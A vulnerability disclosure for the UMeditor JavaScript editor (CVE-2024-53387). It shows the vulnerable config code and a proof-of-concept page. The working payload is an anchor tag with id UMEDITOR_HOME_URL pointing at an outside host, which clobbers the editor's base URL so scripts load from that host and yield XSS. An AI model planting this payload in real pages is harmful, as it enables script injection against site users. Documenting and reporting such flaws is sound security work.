 ## UMeditor

### Meta

+ Library: UMeditor
+ Stars: 1.4K
+ Version: v1.2.2
+ Fingerprint: `typeof window.UM !== 'undefined' && UM.hasOwnProperty('version')`
+ Payload: ```<a id="UMEDITOR_HOME_URL" href="https://attack.hulk/"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: [CVE-2024-53387](https://nvd.nist.gov/vuln/detail/CVE-2024-53387)
+ Foundby: TheHulk

### Library

https://github.com/fex-team/umeditor

### Vulnerable Code Snippet

```javascript
var URL = window.UMEDITOR_HOME_URL || ...
```

```javascript
window.UMEDITOR_CONFIG = {

        //为编辑器实例添加一个路径，这个不能被注释
        UMEDITOR_HOME_URL : URL

        ...
```

## PoC

```html
<!--Library-->
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>UMEDITOR 简单功能</title>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
<link href="/umeditor/themes/default/_css/umeditor.css" type="text/css" rel="stylesheet">
<script type="text/javascript" src="/umeditor/third-party/jquery.min.js"></script>
<script type="text/javascript" src="/umeditor/third-party/template.min.js"></script>
<script type="text/javascript" charset="utf-8" src="/umeditor/umeditor.config.js"></script>
<script type="text/javascript" charset="utf-8" src="/umeditor/_examples/editor_api.js"></script>
<script type="text/javascript" src="/umeditor/lang/zh-cn/zh-cn.js"></script>
<style type="text/css">
h1{
        font-family: "微软雅黑";
        font-weight: normal;
}
</style>
<script type="text/plain" id="myEditor" style="width:800px;height:240px;">
<p>这里我可以写一些输入提示</p>
</script>
<script type="text/javascript">
var um = UM.getEditor('myEditor',{
        //这里可以选择自己需要的工具按钮名称,此处仅选择如下七个
        toolbar:['fullscreen source undo redo bold italic underline'],
        //focus时自动清空初始化时的内容
        autoClearinitialContent:true,
        //关闭字数统计
        wordCount:false,
        //关闭elementPath
        elementPathEnabled:false,
        //默认的编辑区域高度
        initialFrameHeight:300
        //更多其他参数，请参考umeditor.config.js中的配置项
});
</script>
<!--Library-->

<!--Payload-->
<a id="UMEDITOR_HOME_URL" href="http://localhost:9999"></a>
<!--Payload-->
```


